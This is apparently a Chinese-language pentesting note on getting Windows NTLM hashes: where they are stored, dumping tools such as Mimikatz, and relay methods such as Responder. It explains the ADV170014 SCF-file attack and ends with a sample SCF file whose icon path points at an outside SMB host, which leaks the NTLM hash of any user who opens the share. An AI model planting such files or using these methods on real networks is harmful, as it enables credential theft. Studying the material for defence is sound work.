



# [](#%E8%8E%B7%E5%8F%96-ntlm)获取 NTLM

## [](#1-%E7%9B%B8%E5%85%B3%E8%83%8C%E6%99%AF)1 相关背景

### [](#11-ntlm-%E7%9A%84%E5%AD%98%E5%82%A8%E4%BD%8D%E7%BD%AE)1.1 NTLM 的存储位置:

1、系统数据库 SAM (Security Account Manager)

2、DIT 数据库

3、内存 Cache

### [](#12-ntlm-%E7%9A%84%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F)1.2 NTLM 的获取方式

1、从 SAM 获取

2、内存获取

3、DIT 数据库获取

4、WCE、PWDUMP、MIMIKATZ…

### [](#13-ntlm-%E7%9A%84%E5%BD%A2%E5%BC%8F)1.3 NTLM 的形式

aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42

LMHash (windows 2008 R2系统以后系统默认不保存 LMHash)

NTHash

NetHash - 主要获取该种 hash

### [](#14-%E8%BF%9C%E7%A8%8B%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F%E7%AA%83%E5%8F%96)1.4 远程获取方式(窃取):

1、Responder

2、HTTP + SMB

3、**SCF + SMB**

4、SQL + SMB

### [](#adv-170014-ntlm-sso)ADV 170014 NTLM SSO

2017 年 10 月，微软在周二补丁日公布了一份安全公告(ADV170014)，这份安全公告中提到了 NTLM 身份验证方案中的一个漏洞，恶意攻击者可以利用这个漏洞来窃取哈希。

攻击者只需要将一个恶意的 SCF 文件放置在可公开访问的 Windows 文件夹中即可。

一旦文件被放在文件夹中，就会被一个神秘的 bug 执行。它会收集目标的 NTLM 密码散列，并将其发送到一个配置服务器中。

目标主机存在没有设置密码保护的一个共享文件夹，这种场景非常常见，比如办公室、学校、医院以及大多数 Windows 环境中，人们都会通过共享文件夹来共享音乐、照片以及文档。

### [](#%E6%94%BB%E5%87%BB%E5%9C%BA%E6%99%AF)攻击场景



非正版系统可能没有该设置：



微软在 Windows 3.11 时引入了 SCF 文件。SCF文件其实是纯文本文件，可以用来指导 Windows 文件资源管理器执行一些基本任务。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>[Shell]<br>Command=2 <br>IconFile=\\192.168.1.2\sharetest.ico <br>[Taskbar] <br>Command=ToggleDesktop<br>``` |


